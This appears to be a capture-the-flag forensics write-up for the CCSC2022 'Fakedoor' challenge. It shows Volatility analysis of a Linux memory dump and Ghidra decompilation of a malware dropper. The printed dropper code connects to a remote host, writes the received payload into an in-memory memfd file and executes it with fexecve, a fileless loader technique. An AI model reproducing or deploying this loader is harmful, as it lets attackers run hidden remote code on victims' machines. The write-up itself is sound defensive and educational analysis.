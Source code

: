 # CCSC2022 - Fakedoor

**Category:** Forensics

**Author:** icyDux

### Description

Rick was furious when he heard that his naive nephew Morty clicked on a 
phishing e-mail about Real Fake Doors. Fortunately, Rick had managed to 
take a memory snapshot before Morty's computer was fully infected. Help 
Rick to find out what happened.

### Assets

We are provided with a download link to a Linux memory dump. After extracting the downloaded archive we are left with a memory dump and a volatility profile. Since we have a volatility profile I went ahead a used Vol 2 for this challenge. In order for volatility to use the provided profile I copied it to `<volatility repo>/volatility/plugins/overlays/linux/`



Google Drive link: [fakedoor.gz](https://drive.google.com/file/d/1PLy_oO2P0fR-6ltu9YzSpU9d4fpvLdh7/view?usp=sharing)

### First Inspection

Running using the plugin `linux_psaux` yields the processes currently running on the machine. We can make out an unusual process being executed called `dr0ppe3r`

![](assets/writeup/2022-05-17-17-32-49-image.png)

### Extracting and Examining the malware

![](assets/writeup/2022-05-17-17-35-39-image.png)

![](assets/writeup/2022-05-17-17-36-42-image.png)

![](assets/writeup/2022-05-17-17-41-31-image.png)

We can now use Ghidra or some other tool to reverse it. 

```c
undefined8 FUN_004007f0(void)

{
  int iVar1;
  ssize_t sVar2;
  undefined local_428 [1024];
  char *local_28;
  undefined8 local_20;
  undefined8 local_18;
  int local_10;
  int local_c;

  local_18 = 0xb5ca8c011110002;
  local_28 = "b4ckd00r";
  local_20 = 0;
  local_c = socket(2,1,6);
  if (local_c < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = connect(local_c,(sockaddr *)&local_18,0x10);
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_10 = FUN_004007c6("s3cr3t",1);
  if (local_10 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar2 = read(local_c,local_428,0x400);
    if (sVar2 < 1) break;
    write(local_10,local_428,0x400);
  }
  close(local_c);
  sleep(0x14);
  iVar1 = fexecve(local_10,&local_28,_DAT_00600d68);
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return 0;
}
```

This program connects to a remote machine and afterwards calls the `FUN_004007c6` which is a `syscall` wrapper:

```c
void FUN_004007c6(undefined8 param_1,uint param_2)

{
  syscall(0x13f,param_1,(ulong)param_2);
  return;
}
```

The `syscall` ID of `319` corresponds to `memfd_create`, which creates a "file" that resides in memory and returns a file descriptor to that file. More [here](https://man7.org/linux/man-pages/man2/memfd_create.2.html). It then receives data and eventually writes them to said `fd`. After finishing receiving it executes that file using `fexecve()` which is the same as `execve()` but the file resides in memory, so you pass a `fd` as the first argument.

So it's becoming clear that our goal is to find what was written in that file.

### Down the rabbit hole

I spent almost a week searching everywhere about how can we detect and read from a file descriptor in memory, but with no results. I came across what I think was the inspiration for this challenge, even the source code was identical 

[Super-Stealthy Droppers - Malware - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/super-stealthy-droppers/3715)

I knew I had to use the `volshell` to traverse the memory more interactively.

I fired up `volshell` and I displayed the current `task_struct` ([source](https://elixir.bootlin.com/linux/v3.16/source/include/linux/sched.h#L1224)):

![](assets/writeup/2022-05-17-18-19-42-image.png)

A member of the `task_struct` is the `files` struct which holds a table (`fdt`) that depicts the file descriptors for the task. ([source](https://elixir.bootlin.com/linux/v3.16/source/include/linux/fdtable.h#L45)).

![](assets/writeup/2022-05-17-18-36-30-image.png)

 This struct closely represents the struct found [here](https://elixir.bootlin.com/linux/v3.16/source/include/linux/fdtable.h#L24). My next thought was to traverse the `fd` member which is a double pointer to a `file` struct, meaning the `fd` is an array of pointers to all the `file` structs of the task. 

![](assets/writeup/2022-05-17-18-41-55-image.png)

This should be the first file in the list with the `f_u` member pointing to the next one. However when I tried to switch to the next one the `next` member was NULL thus this 'node' was the last in the list, and also the first... I dumped the `f_inode` of this file but it was empty, and also tried traversing a little deeper in the struct finding the name of the file which also didn't help.

I did not know what to make of this and was stuck here for a couple of days...

### Solution

I remember that the `linux_lsof` plugin displays the opened file descriptors 

![](assets/writeup/2022-05-17-18-53-16-image.png)

Now I just need a way to 'view' this file descriptor as the `file` struct to grab the `f_inode`

Back to `volshell`, I used the same plugin but using it within `volshell` we can display the addresses:

![](assets/writeup/2022-05-17-18-56-45-image.png)

Now we have to display the `file` struct at address `0xFFFF8800370B4300`... Can we just cast that address to a `file` struct? 

![](assets/writeup/2022-05-17-18-58-15-image.png)

I guess... but traversing this struct would be a painfully aggravating because we would have to cast every address to its respective struct. However we have the `f_inode` so we can dump the file it points to.

![](assets/writeup/2022-05-17-19-31-51-image.png) 

And we have another executable! Let's examine it with Ghidra!

```c
undefined8 main(void)

{
  FILE *__stream;
  uint uVar1;
  uint local_18;

  for (local_18 = 0; local_18 < 0x21; local_18 = local_18 + 1) {
    uVar1 = (uint)((int)local_18 >> 0x1f) >> 0x1c;
    b[(int)local_18] = b[(int)local_18] ^ a[(int)((local_18 + uVar1 & 0xf) - uVar1)];
  }
  __stream = fopen("/dev/null","w+");
  fputs(b,__stream);
  return 0;
}
```

A simple loop that calculates some characters and prints them to null. Instead of reversing it let's just debug it and check the contents of `b` just before the call to `puts`.

![](assets/writeup/2022-05-17-19-37-07-image.png)

![](assets/writeup/2022-05-17-19-37-38-image.png)

We got the flag! 

`CCSC{m3mfd_b4ckd00r5_4r3_c00l!!!}` 

One of my favorite challenges in the competition. It opened me up to new techniques that I had no clue about, both offensive and defensive. Big thanks to `icyDux` for creating such a cool challenge!
